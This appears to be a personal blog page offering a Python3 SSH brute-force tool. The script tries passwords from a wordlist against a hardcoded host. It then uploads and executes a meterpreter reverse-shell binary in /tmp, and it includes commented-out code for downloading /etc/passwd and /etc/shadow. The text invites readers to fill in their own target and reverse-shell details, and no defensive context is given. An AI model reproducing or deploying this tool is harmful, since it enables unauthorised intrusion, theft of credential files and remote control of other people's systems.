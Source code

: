 ```yaml
---
layout: memory
title: SSHBruteForcer
---
```


Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access. 

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
# Download   
   
   #filepath = "/etc/passwd"
   #localpath = "/home/user/passwd.txt"
   #sftp.get(filepath,localpath)
   
   #filepath = "/etc/shadow"
   #localpath = "/home/user/shadow.txt"
   #sftp.get(filepath,localpath)

# Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
   	try:  
   	   stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
   	   print(stdout.read().decode())
   	   break
   	except KeyboardInterupt:
   	    print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))

```

*Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newwer versions of the dependencies should work but I haven't testet them:

```
paramiko==2.7.2
pwncat==0.4.3
pwntools==4.6.0
```
